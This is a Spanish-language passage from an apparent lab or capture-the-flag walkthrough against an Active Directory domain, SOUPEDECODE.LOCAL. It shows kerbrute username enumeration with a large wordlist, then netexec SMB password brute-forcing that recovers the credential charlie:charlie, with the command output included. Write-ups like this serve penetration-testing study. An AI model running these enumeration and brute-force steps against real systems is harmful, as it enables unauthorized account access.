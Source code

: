 URL = [Download xato-net-10-million-usernames.txt](https://github.com/danielmiessler/SecLists/blob/master/Usernames/xato-net-10-million-usernames.txt)

```shell
kerbrute userenum --dc <IP> -d 'SOUPEDECODE.LOCAL' xato-net-10-million-usernames.txt
```

Info:

```
    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (n/a) - 04/01/25 - Ronnie Flathers @ropnop

2025/04/01 14:17:14 >  Using KDC(s):
2025/04/01 14:17:14 >   192.168.28.11:88

2025/04/01 14:17:14 >  [+] VALID USERNAME:       admin@SOUPEDECODE.LOCAL
2025/04/01 14:17:14 >  [+] VALID USERNAME:       charlie@SOUPEDECODE.LOCAL
2025/04/01 14:17:14 >  [+] VALID USERNAME:       Charlie@SOUPEDECODE.LOCAL
2025/04/01 14:17:14 >  [+] VALID USERNAME:       administrator@SOUPEDECODE.LOCAL
2025/04/01 14:17:14 >  [+] VALID USERNAME:       Admin@SOUPEDECODE.LOCAL
2025/04/01 14:17:16 >  [+] VALID USERNAME:       Administrator@SOUPEDECODE.LOCAL
2025/04/01 14:17:16 >  [+] VALID USERNAME:       CHARLIE@SOUPEDECODE.LOCAL
2025/04/01 14:17:22 >  [+] VALID USERNAME:       ADMIN@SOUPEDECODE.LOCAL
2025/04/01 14:18:43 >  [+] VALID USERNAME:       wreed11@SOUPEDECODE.LOCAL
2025/04/01 14:21:56 >  [+] VALID USERNAME:       printserver@SOUPEDECODE.LOCAL
```

Por lo que vemos hemos encontrado varios usuarios validos, pero entre ellos los que no son por defecto seria los llamados `charlie` y `wreed11` por lo que vamos a probar a realizar fuerza bruta mediante el servidor `SMB` con dichos usuarios.

## netexec

> users.txt

```
wreed11
charlie
```

```shell
netexec smb <IP> -u users.txt -p <WORDLIST> --ignore-pw-decoding
```

Info:

```
SMB   192.168.28.11   445    DC01   [+] SOUPEDECODE.LOCAL\charlie:charlie
```

Vemos que hemos encontrado las credenciales de `charlie` por lo que vamos a listar el servidor `SMB` con dichas credenciales.
